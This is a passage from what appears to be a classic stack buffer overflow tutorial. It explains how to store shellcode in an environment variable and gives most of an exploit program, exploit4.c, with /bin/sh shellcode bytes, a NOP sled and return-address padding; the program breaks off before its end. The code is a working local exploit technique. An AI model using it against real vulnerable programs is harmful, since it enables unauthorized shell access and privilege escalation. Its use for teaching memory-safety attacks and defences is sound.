 What we will do is place our shellcode in an environment variable, and
then overflow the buffer with the address of this variable in memory.  This
method also increases your changes of the exploit working as you can make
the environment variable holding the shell code as large as you want.

The environment variables are stored in the top of the stack when the
program is started, any modification by setenv() are then allocated
elsewhere.  The stack at the beginning then looks like this:

      <strings><argv pointers>NULL<envp pointers>NULL<argc><argv><envp>

Our new program will take an extra variable, the size of the variable
containing the shellcode and NOPs. Our new exploit now looks like this:

{% highlight C %}
exploit4.c
------------------------------------------------------------------------------
#include <stdlib.h>

#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512
#define DEFAULT_EGG_SIZE               2048
#define NOP                            0x90

char shellcode[] =
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_esp(void) {
   __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) {
  char *buff, *ptr, *egg;
  long *addr_ptr, addr;
  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
  int i, eggsize=DEFAULT_EGG_SIZE;

  if (argc > 1) bsize   = atoi(argv[1]);
  if (argc > 2) offset  = atoi(argv[2]);
  if (argc > 3) eggsize = atoi(argv[3]);


  if (!(buff = malloc(bsize))) {
    printf("Can't allocate memory.\n");
    exit(0);
  }
  if (!(egg = malloc(eggsize))) {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  addr = get_esp() - offset;
  printf("Using address: 0x%x\n", addr);

  ptr = buff;
  addr_ptr = (long *) ptr;
  for (i = 0; i < bsize; i+=4)
    *(addr_ptr++) = addr;

  ptr = egg;
  for (i = 0; i < eggsize - strlen(shellcode) - 1; i++)
    *(ptr++) = NOP;

  for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];

  buff[bsize - 1] = '\0';
  egg[eggsize - 1] = '\0';
